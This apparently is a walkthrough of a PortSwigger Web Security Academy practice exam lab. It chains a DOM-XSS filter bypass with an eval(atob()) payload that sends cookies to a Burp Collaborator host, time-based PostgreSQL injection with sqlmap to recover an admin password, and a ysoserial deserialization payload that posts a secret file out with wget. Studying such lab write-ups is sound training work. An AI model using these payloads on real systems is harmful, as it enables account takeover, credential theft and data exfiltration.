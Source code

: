 # Foothold

Active Scan => DOM-XSS => "-alert(1)-"

![image](https://user-images.githubusercontent.com/40497633/233626048-0866c789-cc7c-4278-ae84-721bbfa8ef41.png)


dots are blocked => first bypass to get cookie => alert(document['cookie']) cannot exfiltrate data as dots are needed for the burp collab domain so we have to use atob to use it as base64.
![image](https://user-images.githubusercontent.com/40497633/233626299-da46ddec-1288-49fe-a557-3380039229c0.png)

![image](https://user-images.githubusercontent.com/40497633/233626763-d3d2cd7d-1359-4f72-8ba5-f295416ce4c0.png)


Exploit:
"-eval(atob('[base64 encoded payload]'))-"

base64 payload:
fetch('https://your.burp.oastify.com?cookie='+document.cookie)
![image](https://user-images.githubusercontent.com/40497633/233627758-d03b4789-a4b6-4df0-a91e-d4fde369023a.png)

Exploit server:
<script>
    document.location="https://LAB-ID.h1-web-security-academy.net/?SearchTerm=%22-eval(atob(%27[base64 encoded payload]%27))-%22czichiz"
</script>

![image](https://user-images.githubusercontent.com/40497633/233628564-3c1729fa-30c9-41d2-9edd-89d1cbcf82a9.png)

Carlos account takeover!

![image](https://user-images.githubusercontent.com/40497633/233628748-0e921ccd-22d8-4042-a212-9b277b44de73.png)


# Privesc

Active scan on new advanced search feature only accessible with user account => PostgreSQL injection on param sort-by

PostgreSQL: PostgreSQL 12.14 (Ubuntu 12.14-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit 

Automatic with sqlmap:

sqlmap.py -u "https://LAB-ID.h1-web-security-academy.net:443/filtered_search?SearchTerm=test&sort-by=DATE&writer=" --cookie="_lab=48%7cMC4CFQCUigHc10K7RPnpgqQELxmnJC1XtAIVAIjxga6lfvULTXA5Pbqay2che1mf23VpCwRs7bp8k0P0WAnCIJh1MEhnSS%2b7xWrrVBgesSt08Mm7GHU6AMaFuhNMV79n6urUwKDt%2bvAmBTwIDGNzN3EcnM5lqarXKPo0JzTNR0i9BdZIvvAYXA%3d%3d; session=97xXNPN8LvO14nMh3tQLARSy47O67rgV" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.121 Safari/537.36" --referer="https://0ad500100381b261800cf872003800f1.h1-web-security-academy.net/filtered_search?SearchTerm=test&sort-by=DATE&writer=" --delay=0 --timeout=30 --retries=0 -p "sort-by" --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --current-user

sqlmap find boolean-based SQLi

manual:
Detection with time-based blind SQLi:
sort-by=DATE;SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(7)+ELSE+pg_sleep(0)+END--

Find password lenght:
sort-by=DATE;SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>$20$)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--

20 cars

Find password:
sort-by=DATE;SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,$1$,1)='$a$')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--

1234567891011121314151617181920
b9v9whchew y p e w t l 1 y g v

creds admin:
login: administrator
password: b9v9whchewypewtl1ygv

Administrator account takeover!

# Data exfiltration

New feature => admin panel => delete users => list of blogs with title/author/views

checklist:

SQLi => possible - (no interactions on admin panel so only possibility in headers)
XXE => not possible cause no interactions on admin panel
SSRF => possible only in headers
OS injection => possible only on headers
Deserial => possible + (Cookie look java serialized)
File upload => not possible (no file upload feature)

View-source => clean 

exfiltration:

Insecure deserialization of admin-prefs cookie

H4sIAAAAAAAA%2fzWPPU7DQBCFF0RSQcMJpkOi2PTQEH4iCkcKClJEOV6Pk8HrHbO7dmKQOA4VJ%2bAI3IU7sBahm%2fn09PS9zx81Cl6dW8w1msjigjZS1%2bJ0IM9o%2bRVzS3pa1OwWnsrw9vUxDqvv7FAdZeq4xE48R5qJFFGdZs%2fY4cSiW0%2bW0bNbX2bq5D%2fz0EqkF%2fWuDvawHei1SLWHo7ih%2bi%2bxa6Iab5kc%2baiu5j04rAk4wA16KwHm4qL0qOFJWqjYWiqg7qHEVOE1JNMGPUEUKJh0VIvHDcGKcpg2jWWDw1K4R1ORPwvpcEWePC7gloORjgZ1SBDudo0VjsO7JDMI9zCzuA1JT3zaSb9PDWuHQgEAAA%3d%3d

extension Java deserialisation scanner => exploitation 

Compress using gzip + Encode using Base64 + Encode using URL encoding

Payload: CommonsCollections7 'wget https://your.burp.oastify.com --post-file=/home/carlos/secret'

Received request data => solution-NMN8OGrvOL0ehJ5wqoNWIGTWPwaTZZ8Z

/!\ Configure the path to the ysoserial.jar file in the extension config and use another version of ysoserial if that doesn't work.
/!\ HTTP/2 required

Practical Exam Completed !
